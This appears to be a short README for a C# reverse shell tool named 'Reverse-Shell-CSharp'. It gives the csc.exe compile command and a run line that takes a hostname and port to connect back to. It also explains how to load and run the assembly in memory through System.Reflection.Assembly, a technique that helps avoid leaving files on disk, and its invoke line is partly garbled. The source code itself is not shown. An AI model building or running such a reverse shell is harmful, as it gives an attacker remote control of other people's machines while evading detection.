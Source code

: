 # Reverse-Shell-CSharp

Compile the file with csc.exe /target:exe /out:[FILENAME].exe .\Program.cs

.\[FILENAME].exe HOSTNAME PORT

Can execute in memory with System.Reflection.Assembly

In case executing in memory, you need to create a variable with the type String[], because int main(String[] args)

invoke(null, (, @($hostname, $port)))

